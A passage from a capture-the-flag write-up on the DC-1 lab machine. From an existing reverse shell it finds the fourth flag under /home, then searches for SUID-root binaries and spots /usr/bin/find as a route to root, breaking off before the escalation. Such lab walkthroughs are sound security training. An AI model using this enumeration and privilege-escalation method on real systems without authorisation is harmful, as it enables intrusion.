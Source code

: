 # Flag 4

Back to our reverse shell, we continue the enumeration and find a user called `flag4` under the `/home` directory:

~~~
www-data@DC-1:/var/www/sites/all$ ls -la /home
ls -la /home
total 12
drwxr-xr-x  3 root  root  4096 Feb 19  2019 .
drwxr-xr-x 23 root  root  4096 Feb 19  2019 ..
drwxr-xr-x  2 flag4 flag4 4096 Feb 19  2019 flag4
www-data@DC-1:/var/www/sites/all$ cd /home/flag4
cd /home/flag4
~~~

The fourth flag is located in this directory:

~~~
www-data@DC-1:/home/flag4$ ls -la
ls -la
total 28
drwxr-xr-x 2 flag4 flag4 4096 Feb 19  2019 .
drwxr-xr-x 3 root  root  4096 Feb 19  2019 ..
-rw------- 1 flag4 flag4   28 Feb 19  2019 .bash_history
-rw-r--r-- 1 flag4 flag4  220 Feb 19  2019 .bash_logout
-rw-r--r-- 1 flag4 flag4 3392 Feb 19  2019 .bashrc
-rw-r--r-- 1 flag4 flag4  675 Feb 19  2019 .profile
-rw-r--r-- 1 flag4 flag4  125 Feb 19  2019 flag4.txt
www-data@DC-1:/home/flag4$ cat flag4.txt
cat flag4.txt
Can you use this same method to find or access the flag in root?

Probably. But perhaps it's not that easy.  Or maybe it is?
~~~

# Final flag (root flag)

## SUID programs

Searching for files owned by root, and having the SUID bit set will reveal that `find` is part of the list:

~~~
www-data@DC-1:/$ find / -type f -user root  -perm -u=s 2>/dev/null
find / -type f -user root  -perm -u=s 2>/dev/null
/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find <--------------- find owned by root with SUID bit set!
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/sbin/mount.nfs
~~~